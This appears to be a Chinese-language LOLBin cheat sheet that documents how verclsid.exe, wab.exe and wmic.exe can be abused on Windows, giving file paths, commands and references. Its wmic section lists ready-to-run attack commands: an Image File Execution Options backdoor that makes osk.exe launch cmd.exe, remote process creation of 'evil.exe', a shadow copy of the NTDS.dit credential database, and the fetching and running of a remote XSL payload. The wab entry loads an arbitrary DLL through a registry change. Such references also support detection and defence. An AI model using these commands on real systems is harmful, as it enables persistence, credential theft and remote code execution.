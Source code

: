 ## Verclsid.exe
- 使用说明：

verclsid.exe是Microsoft XP 安全更新程序 (KB908531)。Windows 资源管理器中有一个安全问题，攻击者可能会利用此问题危及基于 Windows 的系统的安全并获取对系统的控制权。

文件路径:
```
C:\Windows\System32\verclsid.exe
C:\Windows\SysWOW64\verclsid.exe
```
- 执行方式：
```
verclsid.exe /S /C {CLSID}
```
- 参考资料：
```
https://gist.github.com/NickTyrer/0598b60112eaafe6d07789f7964290d5
https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/
```

## Wab.exe
- 使用说明：
Windows通讯录管理器

文件路径:
```
C:\Program Files\Windows Mail\wab.exe
C:\Program Files (x86)\Windows Mail\wab.exe
```
- 执行方式：
```
更改HKLM\Software\Microsoft\WAB\DLLPath并执行选择的DLL
wab.exe
```
- 参考资料：
```
https://twitter.com/Hexacorn/status/991447379864932352
http://www.hexacorn.com/blog/2018/05/01/wab-exe-as-a-lolbin/
```

## wmic.exe
- 使用说明：
wmic.exe是WMI 命令行。作为 Windows XP 的一部分发布的 WMI 命令行工具 (wmic.exe) 提供一个到 WMI 基础结构的命令行接口。可以使用 wmic.exe 执行来自命令行的常见 WMI 任务，包括浏览 CIM 和检查 CIM 类定义。

文件路径:
```
C:\Windows\System32\wbem\wmic.exe
C:\Windows\SysWOW64\wbem\wmic.exe
```
- 执行方式：
```
wmic.exe process call create "c:\ads\file.txt:program.exe"
wmic.exe process call create calc
wmic.exe process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
wmic.exe /node:"192.168.0.1" process call create "evil.exe"
wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"
wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
wmic.exe process get brief /format:"https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
```